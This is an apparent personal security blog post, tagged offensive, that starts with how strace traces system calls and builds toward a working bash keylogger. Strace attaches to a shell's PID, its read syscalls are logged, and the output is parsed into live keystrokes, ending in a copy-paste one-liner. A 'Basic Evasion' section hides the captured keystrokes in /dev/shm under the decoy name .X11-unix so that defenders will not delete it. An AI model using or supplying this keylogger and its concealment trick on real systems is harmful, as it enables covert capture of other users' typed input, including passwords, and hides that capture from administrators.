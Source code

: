 ```yaml
---
title: Strace - Bash Keylogger
date: 2021-11-17 00:00:00 +0000
categories: [Linux, Tools, Offensive]
tags: [Linux, Tools, Offensive]
toc: true
published: true
---
```



## Introduction

System calls are used by processes to interact with the kernel. This means if a process wants to read or write to a file, they must make a system call to do so.

To see this in practice, we'll use `strace`.
`strace` simply traces system calls, and is primarily used for debugging purposes. 

For this demonstration we'll use the basic command echo:
```bash
echo "Freddie" > /tmp/demo.file
```

This command simply writes the string "Freddie" to the temporary file `/tmp/demo.file`

We can use `strace` to trace what system calls are being called during the execution of this command.

In order for `strace` to trace the bash redirect, we must attach `strace` to the parent bash process, instead of just the `echo` command.

- `strace -p [pid]` attaches to a PID (Process ID)
- `$$` in bash is the current process's PID (or the bash shell)

![](/assets/images/strace/strace-output-1.png)



When we paste and run our command in the above bash terminal, we are greeted with an overwhelming amount of data. 

If we ignore the irrelevant (for the purposes of this demonstration) system calls made by bash and search for our input we can see two key system calls are made. 

![](/assets/images/strace/strace-output-2.png)


`openat()` - This opens `/tmp/demo.file` with the 0666 permissions.
`write()` - This core system call writes the string `Freddie\n` to the opened file. 

It is worth noting the newline is appended by default by the echo command - we can remove that with `echo -n [string]` if necessary. 


If you have been following the commands, you may have noticed something interesting when tracing the bash process. 

![](/assets/images/strace/strace-output-3.png)

When we type commands into the bash shell above, each character can be seen in both the `read` and `write` system calls. From this simple observation we can process the strace output to create a very rudimentary bash keylogger. 
<br>

### Basic Keylogger

As seen by the previous strace example, a large amount of unimportant system calls are also generated. To filter only the system calls we want, we can use the `-e [syscall]` flag with strace.

We will select the `read` system call to detect all keys entered.

![](/assets/images/strace/strace-output-8.png)

This looks much better. 

Now, let's try to extract input in a more readable format.
This is where the fun(?) begins. 

![](/assets/images/strace/strace-output-7.png)

If we try to pipe our strace output to any text processing commands, nothing.
After a considerable amount of head banging and stack overflow researching, this is due to the fact `strace` writes all it's output to `stderr`. 

![](/assets/images/strace/strace-output-6.png)

With a little more help from stack overflow (I fear any man who can remember regex), each character inside the quotes can be extracted. 

![](/assets/images/strace/strace-output-9.png)

This is when another *slight* issue arises. Due to some linux black magic, if you pipe the output of strace to grep, it is "buffered", and cannot be easily piped into further commands. 
<br>

To get around this technical issue, we can output strace to a file in the background, then read the file and perform operations on that output. 

### Basic Evasion

```bash
strace -e read -p [pid] -o /dev/shm/.X11-unix
```

The above command creates a hidden file in `/dev/shm`. The `/dev/shm` directory lives only in live memory, and is volatile. This makes it great for writing files we don't want to be found, as the folder is wiped on restart. 

`X11` is a linux graphics display, and `.X11-unix` is it's config file.

From experience you should not delete that (the real) file - bad things happens.

This taps into the primal instinct of "bugger I won't delete that again" to prevent defenders from ***not*** deleting our keylogger file >:)

<br>

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix
```


We can background the `strace` command, then read the hidden file in order to parse it correctly.
<br>

### Parsing

Now, all that is needed to be done is to parse the strace output in a readable manner. 

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
cat /dev/shm/.X11-unix | grep -oa -E '"(.*?)"' | sed 's/^.\(.*\).$/\1/' | tr -d "\n" | sed -e "s/\\\r/\n/g" 
```
<br>

If we wrap the `cat` command using `watch` to continually update it, we can see captured keystrokes in live time.

```bash
watch -n 0.1 'cat [command]'
```
<br>

```bash
strace -e read -p 1239419 -o /dev/shm/.X11-unix &
watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

The result:

![](keylogger-in-action.png)

Voila!

The final step to construct our janky bash keylogger, is to concatenate it into a glorious one-liner:

```bash
strace -e read -p [PID] -o /dev/shm/.X11-unix & watch -n 0.1 "cat /dev/shm/.X11-unix | grep -oa -E '\"(.*?)\"' | sed 's/^.\(.*\).$/\1/' | tr -d '\n' | sed -e 's/\\\r/\n/g'"
```

We now have a functioning keylogger, that operates off a commonly installed debugging tool `strace`!
<br>
### Conclusion

If there's any takeaway messages from this absolute abomination of a script and article, it's that there is almost nothing that Stack Overflow and a little glue can't fix™
